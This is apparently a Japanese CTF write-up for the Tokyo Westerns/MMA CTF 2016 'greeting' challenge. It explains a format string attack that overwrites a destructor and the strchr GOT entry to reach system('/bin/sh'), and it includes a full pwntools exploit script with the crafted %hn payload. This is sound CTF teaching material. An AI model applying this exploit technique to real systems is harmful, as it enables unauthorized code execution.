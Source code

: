 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/12/09/twctf-2016-greeting/
date: "2016-12-09T18:17:13+09:00"
tags: [ "ctf", "writeup", "pwn", "twctf", "format-string-attack", "destructor", "got-overwrite" ]
"target_url": [ "https://ctftime.org/task/2735" ]
---
```


# Tokyo Westerns/MMA CTF 2nd 2016: greeting

bataさんリストの先頭にあったのでpwn会でやった。これぐらいの難しさはbabyでなくてeasyじゃなかったっけか。

## solution

format string attackでdestructorとGOTを書き換え、return-to-mainして`system("/bin/sh")`。
入出力の文字列長の制約が変に厳しいので`%hn`あたりを上手く使う。


まず気付くのは`.tomori`sectionの`nao`関数。
実行すると呼ばれるが`main`からは呼ばれていないこれは、constructorとして登録されていて、`main`に入る前に呼ばれる。
gdbで`set follow-fork-mode parent`にせずに実行すると`main`でbreakできなかったりするが、これはこの子のおかげ。

format string bugがあるが、`printf`の後に何も関数を踏まないので困ってしまう。
これはdestructorをを書き換えることで回避する。
`nao`が書かれている場所の下、`__do_global_dtors_aux`を書き換えればよい。

destructorでripを取ったとすると引数を渡すのに困る。
そこで`main`関数の先頭に戻り、`fgets`で`/bin/sh`を渡して(`system`に書き換えた)`strchr`に与え、shelを取る。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
# parser.add_argument('host', nargs='?', default='localhost')
# parser.add_argument('port', nargs='?', default=8000, type=int)
parser.add_argument('--log-level', default='debug')
args = parser.parse_args()
context.log_level = args.log_level

dtor = 0x8049934 # 0x80485a0 -> main
main = 0x80485ed
strchr_got = 0x8049a50 # 0xffffffff -> system_plt
system_plt = 0x8048490

# p = remote(args.host, args.port)
p = process('./greeting')
p.recvuntil('Please tell me your name... ')
payload = ''
payload += 'AB'
payload += p32(strchr_got) # 12
payload += p32(strchr_got + 2) # 13
payload += p32(dtor) # 14
payload += '%%%dd%%12$hn' % ((u16(p32(system_plt)[0:2]) - len('Nice to meet you, AB' + 'AAAA' * 3)) % 65536)
payload += '%%%dd%%13$hn' % ((u16(p32(system_plt)[2:4]) - u16(p32(system_plt)[0:2])) % 65536)
payload += '%%%dd%%14$hhn' % ((ord(p32(main)[0]) - u16(p32(system_plt)[2:4])) % 256)
log.info(hex(len(payload)))
log.info(fiddling.hexdump(payload))
p.sendline(payload)
time.sleep(1)
p.sendline('sh')
time.sleep(1)
p.sendline('id')
p.interactive()
```

